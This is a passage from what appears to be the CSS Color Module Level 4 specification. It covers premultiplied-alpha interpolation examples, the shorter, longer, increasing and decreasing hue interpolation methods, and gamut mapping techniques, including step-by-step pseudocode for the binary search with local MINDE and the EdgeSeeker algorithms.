> The midpoint of linearly interpolating these colors would be [23.4% 10.2% 38.8%] which, with an alpha value of 0.5, is  rgb(46.8% 20.4% 77.6% / 0.5) when premultiplication is undone.

> **Example:** To interpolate, in the Lab color space, the two colors  rgb(76% 62% 03% / 0.4) and  color(display-p3 0.84 0.19 0.72 / 0.6) they are first converted to lab  lab(66.927% 4.873 68.622 / 0.4)  lab(53.503% 82.672 -33.901 / 0.6) then the L, a and b coordinates are premultiplied before interpolation [26.771% 1.949 27.449] and [32.102% 49.603 -20.341].
>
> The midpoint of linearly interpolating these would be [29.4365% 25.776 3.554] which, with an alpha value of 0.5, is  lab(58.873% 51.552 7.108 / 0.5) when premultiplication is undone.

> **Example:** To interpolate, in the chroma-preserving LCH color space, the same two colors  rgb(76% 62% 03% / 0.4) and  color(display-p3 0.84 0.19 0.72 / 0.6) they are first converted to LCH  lch(66.93% 68.79 85.94 / 0.4)  lch(53.5% 89.35 337.7 / 0.6) then the L and C coordinates (but not H) are premultiplied before interpolation [26.771% 27.516 85.94] and [32.102% 53.61 337.7].
>
> The midpoint of linearly interpolating these, along the `shorter` hue arc (the default) would be [29.4365% 40.563 31.82] which, with an alpha value of 0.5, is  lch(58.873% 81.126 31.82 / 0.5) when premultiplication is undone.

There is sample JavaScript code for alpha premultiplication and un-premultiplication, for both polar and rectangular color spaces, in [§ 19 Sample code for Color Conversions](#css-color-4:color-conversion-code).

#### 13.6.  Hue Interpolation {#css-color-4:hue-interpolation}

For color functions with a hue angle (LCH, HSL, HWB etc), there are multiple ways to interpolate. As arcs greater than 360° are rarely desirable, hue angles are fixed up prior to interpolation so that per-component interpolation is done over less than 360°, often less than 180°.

Host syntax can specify any of the following algorithms for hue interpolation (angles in the following are in degrees, but the logic is the same regardless of how they are specified). Specifying a hue interpolation strategy is already part of the `<color-interpolation-method>` syntax via the `<hue-interpolation-method>` token.

Unless otherwise specified, if no specific hue interpolation algorithm is selected by the host syntax, the default is `shorter`.

> **Note:** As a reminder, if the interpolating colors were not already in the specified interpolation color space, then converting them will turn any powerless components into missing components.

##### 13.6.1.  **shorter** {#css-color-4:hue-shorter}

Hue angles are interpolated to take the *shorter* of the two arcs between the starting and ending hues.

> **Example:** For example, the midpoint when interpolating in OkLCh from a red  oklch(0.6 0.24 30) to a yellow  oklch(0.8 0.15 90) would be at a hue angle of 30 + (90 - 30) * 0.5 = 60 degrees, along the shorter arc between the two colors, giving a deep orange  oklch(0.7 0.195 60)

Angles are adjusted so that *θ₂ - θ₁* ∈ [-180, 180]. In pseudo-JavaScript:

```
if (θ₂ - θ₁ > 180) {
  θ₁ += 360;
}
else if (θ₂ - θ₁ < -180) {
  θ₂ += 360;
}
```

##### 13.6.2.  **longer** {#css-color-4:hue-longer}

Hue angles are interpolated to take the *longer* of the two arcs between the starting and ending hues.

> **Example:** For example, the midpoint when interpolating in OkLCh from a red  oklch(0.6 0.24 30) to a yellow  oklch(0.8 0.15 90) would be at a hue angle of (30 + 360 + 90) * 0.5 = 240 degrees, along the longer arc between the two colors, giving a sky blue  oklch(0.7 0.195 240)

Angles are adjusted so that *θ₂ - θ₁* ∈ {(-360, -180], [180, 360)}. In pseudo-JavaScript:

```
if (0 < θ₂ - θ₁ < 180) {
  θ₁ += 360;
}
else if (-180 < θ₂ - θ₁ <= 0) {
  θ₂ += 360;
}
```

##### 13.6.3.  **increasing** {#css-color-4:hue-increasing}

Hue angles are interpolated so that, as they progress from the first color to the second, the angle is always *increasing*. If the angle increases to 360 it is reset to zero, and then continues increasing.

Depending on the difference between the two angles, this will either look the same as *shorter* or as *longer.* However, if one of the hue angles is being animated, and the hue angle difference passes through 180 degrees, the interpolation will not flip to the other arc.

> **Example:** For example, the midpoint when interpolating in OkLCh from a deep brown  oklch(0.5 0.1 30) to a turquoise  oklch(0.7 0.1 190) would be at a hue angle of (30 + 190) * 0.5 = 110 degrees, giving a khaki  oklch(0.6 0.1 110).
>
> However, if the hue of the second color is animated to  oklch(0.7 0.1 230), the midpoint of the interpolation will be (30 + 230) * 0.5 = 130 degrees, continuing in the same increasing direction, giving another green  oklch(0.6 0.1 130) rather than flipping to the opponent color part-way through the animation.

Angles are adjusted so that *θ₂ - θ₁* ∈ [0, 360). In pseudo-JavaScript:

```
if (θ₂ < θ₁) {
  θ₂ += 360;
}
```

##### 13.6.4.  **decreasing** {#css-color-4:hue-decreasing}

Hue angles are interpolated so that, as they progress from the first color to the second, the angle is always *decreasing*. If the angle decreases to 0 it is reset to 360, and then continues decreasing.

Depending on the difference between the two angles, this will either look the same as *shorter* or as *longer.* However, if one of the hue angles is being animated, and the hue angle difference passes through 180 degrees, the interpolation will not flip to the other arc.

> **Example:** For example, the midpoint when interpolating in OkLCh from a deep brown  oklch(0.5 0.1 30) to a turquoise  oklch(0.7 0.1 190) would be at a hue angle of (30 + 360 + 190) * 0.5 = 290 degrees, giving a purple  oklch(0.6 0.1 290).
>
> However, if the hue of the second color is animated to  oklch(0.7 0.1 230), the midpoint of the interpolation will be (30 + 360 + 230) * 0.5 = 310 degrees, continuing in the same decreasing direction, giving another purple  oklch(0.6 0.1 310) rather than flipping to the opponent color part-way through the animation.

Angles are adjusted so that *θ₂ - θ₁* ∈ (-360, 0]. In pseudo-JavaScript:

```
if (θ₁ < θ₂) {
  θ₁ += 360;
}
```

### 14.  Gamut Mapping {#css-color-4:gamut-mapping}

#### 14.1.  An Introduction to Gamut Mapping {#css-color-4:gamut-mapping-intro}

> **Note:** This section provides important context for the specific requirements described elsewhere in the document.

*This section is non-normative*

When a color in an origin color space is converted to another, destination color space which has a smaller gamut, some colors will be outside the destination gamut.

For intermediate color calculations, these out of gamut values are preserved. However, if the destination is the display device (a screen, or a printer) then out of gamut values must be converted to an in-gamut color.

Gamut mapping is the process of finding an in-gamut color with the least objectionable change in visual appearance.

Some out of gamut colors correspond to real-world colors (they could be physically reproduced) while others are imaginary colors (they lie outside the spectral locus and thus would need more than 100% of a single wavelength) and could never be physically realized. Those colors tend to come from calculations such as "make this color 100x as saturated".

> **Example:** For example, while theoretically unbounded, the CIE Lab *(a,b)* plane is often implemented such that *a* and *b* are constrained to the range ±127.
>
> Three of those four corners are outside the spectral locus and thus correspond to imaginary colors.
>
> The four corners of the ±127 (a,b) plane, on a UCS chromaticity diagram. The outer shape is the spectral locus. The larger triangle is the rec2020 gamut, while the smaller is sRGB.

##### 14.1.1.  Clipping {#css-color-4:GM-clip}

The simplest and least acceptable method is simply to clip the component values to the displayable range.

Since the motivation for this method is speed, clipping is commonly done on gamma-encoded values rather than converting them to linear-light.

This changes the proportions of the three primary colors (for an RGB display), resulting in a hue shift.

> **Example:** For example, consider the color `color(srgb-linear 0.5 1 3)`. Because this is a linear-light color space, we can compare the intensities of the three components and see that the amount of blue light is three times the amount of green, while the amount of red light is half that of green. There is six times as much blue primary as red. In OkLCh, this color has a hue angle of 265.1°
>
> If we now clip this color to bring it into gamut for sRGB, we get `color(srgb-linear 0.5 1 1)`. The amount of blue light is the same as green. In OkLCh, this color has a hue angle of 196.1°, a substantial change of 69°.

When colors are not too far out of gamut, clipping can give acceptable results. This is particularly true for darker (or negative) component values.

> **Example:** For example, consider the color `color(rec2020 0.54 0.9 0)` which is `oklch(80.72% 0.3296 141.6)`.
>
> Converting to p3 colorspace, the negative blue value shows the color is out of gamut: `color(display-p3 0.3265 0.9165 -0.1262)` which in linear-light is `color(display-p3-linear 0.0871 0.8205 -0.0146)`.
>
> Clipping the gamma-encoded p3 color to the p3 gamut gives `color(display-p3 0.3265 0.9165 0)` which in linear-light is `color(display-p3-linear 0.0871 0.8205 0)` which, for comparison, is `oklch(80.79% 0.3221 142.3)`.
>
> This is a good result; the hue angle and lightness have barely changed but the chroma is somewhat reduced, as expected.
>
> In terms of percentages of linear-light red green and blue, the red and green are identical while the blue is -1.46% higher.

> **Example:** For example, consider the color `color(prophoto-rgb 0.2 1.0 0.1)` which is `oklch(85.07% 0.4873 151.4)`
>
> Converting to p3 colorspace, the color is significantly out of gamut: `color(display-p3 -0.5782 1.067 -0.2363)` which in linear-light is `color(display-p3-linear -0.2937 1.158 -0.0456)`.
>
> Clipping the gamma-encoded p3 color to the p3 gamut gives `color(display-p3 0 1 0)` which in linear-light is, again, `color(display-p3-linear 0 1 0)` (component values of exactly 0 or 1 are unaffected by gamma encoding) which, for comparison, is `oklch(84.88% 0.3685 145.6)`.
>
> A less good but still visually acceptable result. Here the hue is more affected, a 5.8° change.
>
> In terms of percentages of linear-light red green and blue, red is 57% higher, green is 6.7% lower and blue is 23% higher.

##### 14.1.2.  Closest Color (MINDE) {#css-color-4:GM-closest}

A better method is to map colors, in a perceptually uniform color space, by finding the closest in-gamut color (so-called minimum ΔE or **MINDE**). Clearly, the success of this technique depends on the degree of uniformity of the gamut mapping color space and the predictive accuracy of the deltaE function used.

However, when doing gamut mapping changes in Hue are *particularly* objectionable; changes in Chroma are more tolerable, and small changes in Lightness can also be acceptable especially if the alternative is a larger Chroma reduction. MINDE weights changes in each dimension equally, and thus gives suboptimal results.

##### 14.1.3.  Chroma Reduction {#css-color-4:GM-chroma}

To implement MINDE, colors are mapped in a perceptually uniform, *polar* color space by holding the hue constant, and reducing the chroma until the color falls in gamut.

This could be done *algorithmically* by finding the geometric intersection of a constant-lightness, constant-hue ray with the gamut boundary; or *iteratively*, reducing the chroma until it falls in gamut.

> **Note:** For performance reasons, iteration is typically performed by binary search.

> **Example:** In this example, Display P3 primary yellow (`color(display-p3 1 1 0)`) is being mapped to an sRGB display. The gamut mapping color space is OkLCh.
>
> ```css
> color(display-p3 1 1 0)
> ```
>
> is
>
> ```css
> color(srgb 1 1 -0.3463)
> ```
>
> which is
>
> ```css
> oklch(0.96476 0.24503 110.23)
> ```
>
> By progressively reducing the chroma component until the resulting color falls inside the sRGB gamut (has no components negative, or greater than one) a gamut mapped color is obtained.
>
> ```css
>    oklch(0.96476 0.21094 110.23)
> ```
>
> which is
>
> ```css
>    color(srgb 0.99116 0.99733 0.00001)
> ```
>
> 
>
> A constant-hue slice of OkLCh color space. The vertical axis represents lightness, the horizontal axis is chroma. The color to be mapped, shown as a yellow circle, has the chroma reduced while keeping hue and lightness constant. The color therefore moves along the maroon line in the diagram, towards the neutral axis on the left. The gamut boundary of sRGB is shown in green.

##### 14.1.4.  Excessive Chroma Reduction {#css-color-4:GM-excessive-reduction}

Also, this simple MINDE approach will give sub-optimal results for certain colors, principally very light colors like yellow and cyan, if the upper edge of the gamut boundary is shallow, or even slightly concave. The line of constant lightness can skim just above the gamut boundary, resulting in an excessively low chroma in those cases.

The choice of color space will affect the acceptability of the gamut mapped colors.

> **Example:** In this example, Display P3 primary yellow (`color(display-p3 1 1 0`) has the chroma progressively reduced in CIE LCH color space.
>
> 
>
> In the upper part of this diagram, colors which are inside the gamut of sRGB are displayed as-is. Colors inside the gamut of Display P3 (but outside sRGB) are in salmon. Colors outside the gamut of Display P3 are in red. The lower part of the diagram shows the linear-light intensities of the Display P3 red, green and blue components.
>
> It can be seen that reduction in CIE LCH chroma makes the red intensity curve up, out of Display P3 gamut; by the time it falls again the chroma is very low. Simple gamut mapping in CIE LCH would give unsatisfactory results.

> **Example:** In this example, Display P3 primary yellow (`color(display-p3 1 1 0`) has the chroma progressively reduced, but this time in OkLCh color space.
>
> 
>
> In the upper part of this diagram, colors which are inside the gamut of sRGB are displayed as-is. Colors inside the gamut of Display P3 (but outside sRGB) are in salmon. Colors outside the gamut of Display P3 are in red. The lower part of the diagram shows the linear-light intensities of the Display P3 red, green and blue components.
>
> It can be seen that reduction in OkLCh chroma is better behaved. Colors do not go outside the Display P3 gamut, and the resulting gamut-mapped yellow has good chroma. Simple gamut mapping in OK LCH would give acceptable results.

##### 14.1.5.  Chroma Reduction with Local Clipping {#css-color-4:GM-chroma-local-MINDE}

The simple chroma-reduction algorithm can be improved: at each step, the color difference is computed between the current mapped color and a clipped version of that color. If the current color is outside the gamut boundary, but the color difference between it and the clipped version is below the threshold for a *just noticeable difference* (JND), the clipped version of the color is returned as the mapped result. Effectively, this is doing a MINDE mapping at each stage, but constrained so the hue and lightness changes are very small, and thus are not noticeable.

> **Example:** In this example, Display P3 primary yellow (`color(display-p3 1 1 0`) has the chroma progressively reduced in CIE LCH color space, with the local clip modification.
>
> 
>
> In the upper part of this diagram, colors which are inside the gamut of sRGB are displayed as-is. Colors inside the gamut of Display P3 (but outside sRGB) are in salmon. Colors outside the gamut of Display P3 are in red. The lower part of the diagram shows the linear-light intensities of the Display P3 red, green and blue components.
>
> It can be seen that reduction in CIE LCH chroma still makes the red intensity curve up, out of Display P3 gamut; but less than before and the sRGB boundary is found much more quickly. Gamut mapping in CIE LCH with local clip would give acceptable results.

> **Example:** In this example, Display P3 primary yellow (`color(display-p3 1 1 0`) has the chroma progressively reduced, but this time in OkLCh color space and with the local clip modification.
>
> 
>
> In the upper part of this diagram, colors which are inside the gamut of sRGB are displayed as-is. Colors inside the gamut of Display P3 (but outside sRGB) are in salmon. Colors outside the gamut of Display P3 are in red. The lower part of the diagram shows the linear-light intensities of the Display P3 red, green and blue components.
>
> It can be seen that reduction in OkLCh chroma, which was already good, is further improved by the local clip modification. Simple gamut mapping in CIE LCH with local clip would give excellent results.

##### 14.1.6.  Deviations from Perceptual Uniformity: Hue Curvature {#css-color-4:GM-hue-curvature}

Performing gamut mapping in the CIE LCH color space even with the deltaE2000 distance metric, is known to give suboptimal results with significant hue shifts, for colors in the hue range 270° to 330°.


A constant-hue slice of CIE LCH color space, at a hue angle of 301.37° corresponding to sRGB primary blue. The vertical axis is Lightness, the horizontal axis is Chroma. Between chroma of 25 and 75, the hue is visibly purple, becoming more blue between 100 and 131. The same phenomenon continues past 131, but cannot be shown on an sRGB display.

Using OkLCh color space and the deltaEOK distance metric avoids this issue at all hue angles.


A constant-hue slice of OkLCh color space, at a hue angle of 264.06° corresponding to sRGB primary blue. The vertical axis is Lightness, the horizontal axis is Chroma. The hue is visibly the same at all values of chroma, up to 0.315 (the sRGB limit at this hue). It continues to be constant beyond this point, although that cannot be shown on an sRGB diagram.

#### 14.2.  CSS Gamut Mapping to an RGB Destination {#css-color-4:css-gamut-mapping}

The three **CSS gamut mapping algorithms** apply to Standard Dynamic Range (SDR) CSS colors which are out of gamut of:

- an RGB display (which cannot represent out of gamut values in the frame buffer)
- a canvas, with [unorm8](https://html.spec.whatwg.org/multipage/canvas.html#dom-canvascolortype-unorm8) backing store (thus, unable to store out of gamut values)

They thus require to be **css gamut mapped**.

> **Example:** For example, given a Display P3 screen, attempting to display the color color(display-p3 1.1 0.4 0.2) will trigger gamut mapping, because the red coordinate is outside the range 0 to 1; gamut mapping will produce a similar, but lower chroma, color, such as  color(display-p3 1 0.473 0.314).

> **Example:** For example, given a 2d context with colorSpace set to "display-p3" and colorType set to "unorm8"; attempting to paint the color oklch(76% 0.27 60) will trigger gamut mapping, because once converted to Display P3, the value color(display-p3 1.062 0.4954 -0.3115) has a red coordinate greater than 1 and a negative blue coordinate. Gamut mapping will produce a similar, but lower chroma, color, such as  color(display-p3 1 0.546 0).

Implementations may choose any of the three algorithms based on their quality and runtime efficiency tradeoffs, and must use their chosen algorithm wherever CSS mandates that gamut mapping be performed.

- [Binary Search Gamut Mapping with Local MINDE](#css-color-4:GMA-Binary-local-MINDE)
- [EdgeSeeker Gamut Mapping](#css-color-4:GMA-EdgeSeeker)
- [Ray Trace Gamut Mapping](#css-color-4:GMA-Raytrace)

They all implement a **relative colorimetric intent**, thus colors inside the destination gamut are **unchanged**.

> **Note:** other situations, in particular mapping to printer gamuts where the maximum black level is significantly above zero, will require different algorithms which align the respective black and white points, which will result in lightness changes for very light and very dark colors as chroma is reduced.

> **Note:** these algorithms are for individually specified colors, used either singly (on page elements) or in combination (as with gradients); for photographic images, where relationships between neighboring pixels are important and the aim is to preserve detail and texture, a **perceptual rendering intent** is more appropriate and in that case, colors *inside* the destination gamut **could be changed**.

All three CSS gamut mapping algorithms aim at constant-lightness, constant-hue chroma reduction in the [OkLCh color space](#css-color-4:ok-lab).

For colors which are out of range on the Lightness axis, white is returned in the destination color space if the Lightness is greater than or equal to 1.0, while black is returned in the destination color space if the Lightness is less than or equal to 0.0.

##### 14.2.1.  Binary Search Gamut Mapping with Local MINDE {#css-color-4:GMA-Binary-local-MINDE}

For this binary search algorithm, the color difference formula used is [deltaEOK](#css-color-4:color-difference-OK). The [local-MINDE](#css-color-4:GM-chroma-local-MINDE) improvement is used. At each step in the search, the deltaEOK is computed between the current mapped color and a clipped version of that color.

If the current color is *outside* the gamut boundary, but the deltaEOK between it and the clipped version is below a threshold for a *just noticeable difference* (JND), the clipped version of the color is returned as the mapped result. This gives good results with non-noticeable hue shifts, and avoids excessive chroma reduction near concave gamut surfaces, but can be computationally intensive.

For the OkLCh color space, one JND is an OkLCh difference of 0.02.

> **Note:** In CIE Lab color space, where the range of the Lightness component is 0 to 100, using deltaE2000, one JND is 2. Because the range of Lightness in Oklab and OkLCh is 0 to 1, using deltaEOK, one JND is 100 times smaller.

> **Note:** for the purposes of experimentation, and comparing implementations, implementations of the Binary Search with Local MINDE algorithm are available in the Coloraide library (in Python) [Coloraide-MINDE] and the color.js library (in JavaScript) [colorjs-MINDE].

##### 14.2.2.  Sample Pseudocode for the Binary Search Gamut Mapping with Local MINDE {#css-color-4:pseudo-binsearch}

To **Binary Search Gamut Map with Local MINDE** a color *origin* in color space *origin color space* to be in gamut of a destination color space *destination*:

1. if *destination* has no gamut limits (XYZ-D65, XYZ-D50, Lab, LCH, Oklab, OkLCh) convert *origin* to *destination* and return it as the gamut mapped color
2. let *origin_OkLCh* be *origin* converted from *origin color space* to the OkLCh color space
3. if the Lightness of *origin_OkLCh* is greater than or equal to 100%, convert `oklab(1 0 0 / origin.alpha)` to *destination* and return it as the gamut mapped color
4. if the Lightness of *origin_OkLCh* is less than or equal to 0%, convert `oklab(0 0 0 / origin.alpha)` to *destination* and return it as the gamut mapped color
5. let inGamut(*color*) be a function which returns true if, when passed a color, that color is inside the gamut of *destination*. For HSL and HWB, it returns true if the color is inside the gamut of sRGB.
6. if inGamut(*origin_OkLCh*) is true, convert *origin_OkLCh* to *destination* and return it as the gamut mapped color
7. otherwise, let delta(*one*, *two*) be a function which returns the deltaEOK of color *one* compared to color *two*
8. let *JND* be 0.02
9. let *epsilon* be 0.0001
10. let clip(*color*) be a function which converts *color* to *destination*, clamps each component to the bounds of the reference range for that component and returns the result
11. set *current* to *origin_OkLCh*
12. set *clipped* to clip(*current*)
13. set *E* to delta(*clipped*, *current*)
14. if *E* < *JND*

  1. return *clipped* as the gamut mapped color
15. set *min* to zero
16. set *max* to the OkLCh chroma of *origin_OkLCh*
17. let *min_inGamut* be a boolean that represents when *min* is still in gamut, and set it to true
18. while (*max* - *min* is greater than *epsilon*) repeat the following steps

  1. set *chroma* to (*min* + *max*) /2
  2. set the chroma component of *current* to *chroma*
  3. if *min_inGamut* is true and also if inGamut(*current*) is true, set *min* to *chroma* and continue to repeat these steps
  4. otherwise, carry out these steps:

    1. set *clipped* to clip(*current*)
    2. set *E* to delta(*clipped*, *current*)
    3. if *E* < *JND*

      1. if (*JND* - *E* < *epsilon*) return *clipped* as the gamut mapped color
      2. otherwise,

        1. set *min_inGamut* to false
        2. set *min* to *chroma*
    4. otherwise, set *max* to *chroma* and continue to repeat these steps
19. return *clipped* as the gamut mapped color

##### 14.2.3.  The EdgeSeeker Gamut Mapping {#css-color-4:GMA-EdgeSeeker}

The EdgeSeeker algorithm is a geometric and lookup-table-based approach, originally developed by Alexey Ardov for the color.js library [colorjs-EdgeSeeker].

For any given hue, the gamut boundary slice is represented as a curved top section and a linear bottom section, joining at the highest chroma point for that hue.

To initialize this algorithm, for a given target RGB space, a lookup table (LUT) is constructed containing the highest-chroma Oklch color on each hue slice. Linear interpolation between closest LUT values is used to then estimate the highest-chroma color for the exact hue of each color to be gamut mapped.

Intersection of the constant-lightness ray with the gamut boundary is then calculated, which is fast for the lower (linear) part of the boundary and still fairly fast for the upper (curved) portion.

This gives good results, at the expense of memory for the LUT.

##### 14.2.4.  Sample Pseudocode for the EdgeSeeker Gamut Mapping {#css-color-4:pseudo-edgeseeker}

The EdgeSeeker algorithm relies on a lookup table (LUT) which is constructed once for a given RGB destination color space with non-imaginary primaries (not, for example, ProPhoto RGB) and then reused to gamut map every color mapped into that space. The following describes how the LUT is constructed, and how it is then used to gamut map an individual color.

To **construct an EdgeSeeker lookup table** for an RGB destination color space *destination* with non-imaginary primaries (not, for example, ProPhoto RGB), given a number of hue samples per region *N* (for example, 400):

1. let *cusps* and *curve* each be an empty list
2. for each of the six 60deg hue regions (0deg to 60deg, 60deg to 120deg, and so on up to 300deg to 360deg):

  1. let *regionCusps* and *regionCurve* each be an empty list
  2. for each of *N* hues *h* evenly spaced across that region, inclusive of both endpoints, in increasing order:

    1. let *r*, *g* and *b* be the result of converting the HSL triplet (*h*, 100%, 50%) to RGB using the [HSL to RGB conversion](#css-color-4:hsl-to-rgb)
    2. let *cusp* be the color with coordinates *r*, *g*, *b* in *destination*, converted to the OkLCh color space
    3. append {l: *cusp*’s Lightness, c: *cusp*’s Chroma, h: *cusp*’s Hue} to *regionCusps*
    4. let *r2*, *g2* and *b2* be the result of converting the HSL triplet (*h*, 100%, 75%) to RGB using the [HSL to RGB conversion](#css-color-4:hsl-to-rgb)
    5. let *curvePoint* be the color with coordinates *r2*, *g2*, *b2* in *destination*, converted to the OkLCh color space
    6. append {l: *curvePoint*’s Lightness, c: *curvePoint*’s Chroma, h: *curvePoint*’s Hue} to *regionCurve*
  3. remove hue folds from *regionCusps*, and from *regionCurve*
  4. append every entry of *regionCusps* except the last to *cusps*, and every entry of *regionCurve* except the last to *curve*
3. sort *cusps* and *curve* each by ascending hue
4. for each of *cusps* and *curve*:

  1. let *last* be its highest-hue entry, and let *first* be its lowest-hue entry with 360deg added to its hue
  2. let *end* be the entry whose Lightness and Chroma are obtained by linearly interpolating, by hue, between *last* and *first* at hue 360deg
  3. prepend to the list an entry with *end*’s Lightness and Chroma at hue 0deg, and append *end* at hue 360deg
5. let *LUT* be an empty list
6. for each entry *cusp* in *cusps*:

  1. let *curvePoint* be the entry whose Lightness and Chroma are obtained by linearly interpolating, by hue, between the two entries in *curve* whose hues most closely bracket *cusp*’s hue
  2. let *curvature* be the result of calculating the curvature for *cusp* and *curvePoint*
  3. append {l: *cusp*’s l, c: *cusp*’s c, h: *cusp*’s h, curvature: *curvature*} to *LUT*
7. return *LUT*

> **Note:** The number of hue samples, and any pruning of entries which can be linearly interpolated from their neighbors, are implementation choices that trade off precomputation time, memory, and accuracy; they do not affect the definition of the algorithm. See the reference implementation [colorjs-EdgeSeeker] for one such approach.

To **remove hue folds** from a list *samples* of OkLCh entries in order of increasing sampled HSL hue:

Because the entries are keyed by OkLCh hue, a monotonically increasing sequence of sampled HSL hues does not always produce a monotonically increasing sequence of OkLCh hues: the boundary can fold back on itself. Simply discarding each entry whose hue does not advance keeps the overshoot before the fold and discards the good entries after it, which is worse than doing nothing. Instead, the overshoot is removed, and the boundary resumes at the end of the backward run.

Here the *hue step* from hue *a* to hue *b* is (*b* − *a*) modulo 360deg, in the range [0deg, 360deg), and it is *forward* if it is less than or equal to 180deg.

1. let *kept* be a list containing the first entry of *samples*
2. let *i* be 1
3. while *i* is less than the number of entries in *samples*:

  1. if the hue step from *samples*[*i* − 1]'s hue to *samples*[*i*]'s hue is forward, append *samples*[*i*] to *kept*, set *i* to *i* + 1, and continue with the next iteration
  2. let *j* be *i*
  3. while *j* is less than the index of the last entry of *samples*, and the hue step from *samples*[*j*]'s hue to *samples*[*j* + 1]'s hue is not forward, set *j* to *j* + 1
  4. let *resume* be *samples*[*j*]
  5. let *first* be the index of the first entry of *kept* whose hue step to *resume*’s hue is not forward, that is, the first kept entry past *resume*’s hue
  6. Assert: there is such an entry, and *first* is at least 1
  7. let *bridge* be the entry at hue *resume*’s hue − 0.0001deg whose Lightness and Chroma are obtained by linearly interpolating, by hue, between *kept*[*first* − 1] and *kept*[*first*], with the interpolation factor clamped to [0, 1]
  8. remove *kept*[*first*] and every entry after it from *kept*
  9. if the hue step from the hue of the last entry of *kept* to *bridge*’s hue is forward and not 0deg, append *bridge* to *kept*
  10. append *resume* to *kept*
  11. set *i* to *j* + 1
4. replace the contents of *samples* with *kept*

To **calculate the curvature** of a gamut boundary section, given a cusp point *cusp* (the OkLCh Lightness and Chroma of the point of highest chroma for a hue) and a second point *curvePoint* on the lighter part of the boundary at the same hue:

The boundary section is normalized into a unit square in which (0, 0) is white and (1, 1) is the cusp. The curvature is that of the circle which passes through those two points and through the normalized *curvePoint*.

1. let *x* be (100% − *curvePoint*’s Lightness) / (100% − *cusp*’s Lightness)
2. let *y* be *curvePoint*’s Chroma / *cusp*’s Chroma
3. if *x* equals *y*, return 0
4. let *p1* be the point (0, 0)
5. let *p2* be the point (*x*, *y*)
6. let *p3* be the point (1, 1)
7. let *m1* be −1 / ((*p2*’s y − *p1*’s y) / (*p2*’s x − *p1*’s x)), the slope of the perpendicular bisector of the segment from *p1* to *p2*
8. let *m2* be −1 / ((*p3*’s y − *p1*’s y) / (*p3*’s x − *p1*’s x)), the slope of the perpendicular bisector of the segment from *p1* to *p3*
9. let *mid1* be the midpoint of *p1* and *p2*
10. let *mid2* be the midpoint of *p1* and *p3*
11. let *centerX* be (*m1* × *mid1*’s x − *m2* × *mid2*’s x + *mid2*’s y − *mid1*’s y) / (*m1* − *m2*)
12. let *centerY* be *m1* × (*centerX* − *mid1*’s x) + *mid1*’s y
13. let *radius* be sqrt(*centerX*² + *centerY*²)
14. let *curvature* be 1 / *radius*
15. if *centerX* is less than *centerY*, return −*curvature*
16. return *curvature*

To **EdgeSeeker Gamut Map** a color *origin* in color space *origin color space* to be in gamut of an RGB destination color space *destination* with non-imaginary primaries (not, for example, ProPhoto RGB), given an EdgeSeeker lookup table *LUT* previously constructed for *destination*:

1. if *destination* has no gamut limits (XYZ-D65, XYZ-D50, Lab, LCH, Oklab, OkLCh) convert *origin* to *destination* and return it as the gamut mapped color
2. if *destination* is HSL or HWB, let *LUT* be the lookup table constructed for sRGB
3. let clip(*color*) be a function which converts *color* to *destination*, clamps each component to the bounds of the reference range for that component and returns the result
4. if *origin* is in gamut of *destination*, return clip(*origin*)
5. let *origin_OkLCh* be *origin* converted from *origin color space* to the OkLCh color space
6. if the Lightness of *origin_OkLCh* is greater than or equal to 100%, convert `oklab(1 0 0 / origin.alpha)` to *destination* and return it as the gamut mapped color
7. if the Lightness of *origin_OkLCh* is less than or equal to 0%, convert `oklab(0 0 0 / origin.alpha)` to *destination* and return it as the gamut mapped color
8. let *l*, *c* and *h* be the Lightness, Chroma and Hue of *origin_OkLCh*, respectively
9. if *h* is missing, set *h* to 0deg
10. let *maxChroma* be the result of finding the maximum chroma for *l* and *h*, using *LUT*
11. if *c* is greater than *maxChroma*, set *c* to *maxChroma*
12. let *mapped* be the OkLCh color with Lightness *l*, Chroma *c*, hue *h* and the same alpha as *origin*
13. set *clipped* to clip(*mapped*)
14. return *clipped* as the gamut mapped color

To **find the maximum chroma** for a given OkLCh Lightness *l* and hue *h*, using an EdgeSeeker lookup table *LUT* (a list of entries, each with a Lightness, a Chroma, a hue and a curvature, sorted by ascending hue and together spanning the full hue range from 0deg to 360deg inclusive):

1. if *l* is less than or equal to 0%, or *l* is greater than or equal to 100%, return 0
2. set *h* to *h* modulo 360deg, adding 360deg to the result if it is negative, so that *h* is in the range [0deg, 360deg)
3. let *lower* and *upper* be the two entries in *LUT* whose hues most closely bracket *h*, such that *lower*’s hue is less than or equal to *h* and *upper*’s hue is greater than or equal to *h*
4. let *t* be (*h* − *lower*’s hue) / (*upper*’s hue − *lower*’s hue), or 0 if *lower* and *upper* have the same hue
5. let *cuspLightness* be *lower*’s Lightness + *t* × (*upper*’s Lightness − *lower*’s Lightness)
6. let *cuspChroma* be *lower*’s Chroma + *t* × (*upper*’s Chroma − *lower*’s Chroma)
7. let *curvature* be *lower*’s curvature + *t* × (*upper*’s curvature − *lower*’s curvature)
8. if *l* is less than or equal to *cuspLightness*, return (*l* / *cuspLightness*) × *cuspChroma*
9. let *x* be (100% − *l*) / (100% − *cuspLightness*)
10. return *cuspChroma* × the result of finding the normalized chroma on the upper gamut boundary arc for *x* and *curvature*

To **find the normalized chroma on the upper gamut boundary arc**, given a normalized position *x* along the upper boundary section (1 at the cusp, 0 at white) and a *curvature* whose absolute value is less than 1, returning the normalized chroma at that position:

The boundary section is the arc of the circle which passes through (0, 0) and (1, 1) with the given signed curvature. Rather than locating the center of that circle, which is very far away when the curvature is close to 0, the circle’s equation is multiplied through by the curvature and solved directly for the chroma, which avoids subtracting large, nearly equal quantities.

1. let *t* be sqrt(2 − *curvature*²)
2. let *b* be *t* − *curvature*
3. let *d* be *x* × (*t* + *curvature* × (1 − *x*))
4. let *disc* be max(0, *b*² + 4 × *curvature* × *d*)
5. return 2 × *d* / (*b* + sqrt(*disc*))

> **Note:** When the absolute value of the curvature is 1 or more, the arc overhangs x = 0 or x = 1 and the chroma is no longer a single-valued function of *x*. The lookup tables for typical RGB display color spaces have curvatures well within this limit.

##### 14.2.5.  The Ray Trace Gamut Mapping {#css-color-4:GMA-Raytrace}

The Ray Trace algorithm is a geometric approach to RGB gamut mapping, for fast chroma reduction with constant lightness. It was originally developed by Isaac Muse for the Coloraide Python Library [Coloraide-Ray-Trace].

The color to be mapped is first converted to Oklch, and then the achromatic version of that color is generated, which will be the neutral axis anchor. These two colors are then converted to the linear-light version of the target RGB space.

Because the gamut boundary is now an axis-aligned cube, finding the intersection is faster.

